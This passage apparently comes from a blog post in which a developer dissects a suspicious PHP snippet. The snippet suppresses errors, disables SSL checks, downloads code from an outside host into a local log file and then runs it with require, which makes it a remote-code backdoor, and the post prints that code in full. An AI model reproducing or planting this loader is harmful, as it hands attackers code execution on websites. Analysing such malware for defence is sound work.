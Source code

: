  ```php
				  "User-Agent: Mozilla/5.0 (iPad; U; CPU OS 3_2 like Mac OS X; en-us) AppleWebKit/531.21.10 (KHTML, like Gecko) Version/4.0.4 Mobile/7B334b Safari/531.21.10" // i.e. An iPad 
	  ),
	  "ssl"=>array(
				  "verify_peer"=>false,
				  "verify_peer_name"=>false,
	  )
	);
		$content = file_get_contents('http://mir.buymskey.com/tool/editor.txt', false, $context1);
	}
	  file_put_contents($write_file,$content);
  }
/*
  if (file_exists('write_check_class.log')==True){
	$check_content=file_get_contents('write_check_class.log');
	if ($check_content!='refer check class'){
		$check_sure=False;
	}
  } else {
	$check_sure=False;
  }*/
  $file_name=dirname(__FILE__);
  file_put_contents('write_check_class.log',$file_name.':::refer check class');
  $last_log_sure=True;
  if (file_exists($write_file)==True){
	$last_get_content=file_get_contents($write_file);
	if ((strpos($last_get_content, 'confirm:start of editor file') !== false) && (strpos($last_get_content, 'confirm:end of editor file') !== false)){
		require($write_file);
	}
	else{
		echo 'editor not exist!!!';
	}
  } else {
	echo 'editor not exist!!!';
  }
  //this is require_editor file end
```
	
	
	
So the question becomes: what the hell is this code doing? PHP isn't really in my wheelhouse as I spend most of my time writing JS and building apps with it's associated frameworks. But let's see what we can infer or "grok" from what's written here.

First few lines: 

```php

 //this is require_editor file start
    error_reporting(0);
      set_time_limit(0);
      $log_sure=True;
      $write_file='write_work_complete.log';
  if (file_exists($write_file)==True){
	$get_content=file_get_contents($write_file);
	if ((strpos($get_content, 'confirm:start of editor file') !== false) && (strpos($get_content, 'confirm:end of editor file') !== false)){
		$content=$get_content;
	} else {
		$log_sure=False;
	}
  } else {
	$log_sure=False;
  }
```